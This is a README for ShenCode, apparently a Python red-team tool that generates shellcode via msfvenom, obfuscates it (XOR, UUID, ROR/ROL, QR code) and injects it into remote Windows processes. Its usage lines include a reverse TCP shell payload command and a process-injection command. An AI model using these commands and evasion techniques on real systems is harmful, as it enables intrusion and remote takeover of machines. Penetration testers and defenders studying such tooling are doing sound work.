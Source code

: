 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-042.png)

## Features

### Version 0.4.4

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`

### encode shellcode

`encode --filename infile --outputfile outfile --<encoder> [--encoderoption]`

[ShenCode encode options and examples](https://github.com/psycore8/shencode/wiki/encode)

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte <OFFSET> --last-byte <OFFSET>`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`

### output in different styles

ShenCode supports multiple output features.

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

[ShenCode output options](https://github.com/psycore8/shencode/wiki/output)


## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
